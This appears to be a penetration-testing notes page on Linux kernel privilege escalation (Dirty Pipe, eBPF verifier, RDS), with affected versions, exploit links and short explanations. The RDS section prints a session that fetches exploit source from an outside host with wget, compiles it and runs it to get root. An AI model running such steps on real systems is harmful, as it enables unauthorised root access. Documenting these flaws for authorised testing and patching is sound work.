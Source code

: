 # Kernel

## Dirty Pipe

{% hint style="warning" %}
* Affected versions:&#x20;
  * `5.8` ≤ version < `5.16.11`
  * `5.15` ≤ version < `5.15.25`
  * `5.10` ≤ version < `5.10.102`
* PoC: [https://github.com/AlexisAhmed/CVE-2022-0847-DirtyPipe-Exploits](https://github.com/AlexisAhmed/CVE-2022-0847-DirtyPipe-Exploits)
{% endhint %}

Dirty Pipe ([CVE-2022-0847](https://nvd.nist.gov/vuln/detail/cve-2022-0847)) is a Linux kernel vulnerability that allows unprivileged local users to escalate privileges by exploiting uninitialized `pipe_buffer` flags. Due to a flaw in how the kernel handles pipes (`copy_page_to_iter_pipe()` and `push_pipe()`), stale flag values may grant unintended write access to pages in the page cache, even if they back read-only files.

By injecting data into these cached pages, it becomes possible to overwrite sensitive files (e.g., `/etc/passwd`) without modifying the actual filesystem. This enables silent privilege escalation and arbitrary code injection without detection by most integrity controls.

## eBPF\_verifier

{% hint style="warning" %}
* Affected versions: ≤ `4.4`
* PoC: [https://www.exploit-db.com/download/45010](https://app.gitbook.com/o/asuXdppEfmgK9Dr478w0/s/mjLkek16kB60c2WFd5lf/)
{% endhint %}

[eBPF\_verifier](../../../../../boxes/easy/forest.md) ([CVE-2017-16995](https://app.gitbook.com/o/asuXdppEfmgK9Dr478w0/s/mjLkek16kB60c2WFd5lf/)) is a PE vulnerability in the Linux kernel’s eBPF (Extended Berkeley Packet Filter) verifier. The flaw resides in the verifier’s insufficient validation of register states when processing certain BPF instructions. By crafting a malicious BPF program and loading it through privileged system calls available to unprivileged users, it becomes possible to perform out-of-bounds memory reads and writes in kernel space. This enables the corruption of kernel memory structures, ultimately allowing arbitrary code execution with elevated privileges.

## RDS

{% hint style="warning" %}
* Affected versions: ≤ `2.6.36`
* PoC: [https://www.exploit-db.com/exploits/15285](https://www.exploit-db.com/exploits/15285)
{% endhint %}

The [CVE-2010-3904](https://nvd.nist.gov/vuln/detail/cve-2010-3904) vulnerability affects the RDS (Reliable Datagram Sockets) implementation in the Linux kernel prior to version `2.6.36`. The function `rds_page_copy_user()` fails to properly validate user-supplied memory addresses during `sendmsg` and `recvmsg` calls. As a result, a local attacker can write arbitrary data to kernel memory.

This flaw allows reliable privilege escalation by overwriting function pointers or other critical kernel structures. No special capabilities are required beyond local access and the ability to open an RDS socket. Because it directly manipulates kernel memory, exploitation is fast and effective, making it highly valuable for post-exploitation or lateral movement in older systems that remain unpatched.

```bash
$ wget http://192.168.45.170:443/linux-rds-exploit.c -O /tmp/linux-rds-exploit.c
$ chmod +x linux-rds-exploit.c
$ gcc linux-rds-exploit.c -o rds
$ ./rds
[*] Got root!
# id
uid=0(root) gid=0(root)
```
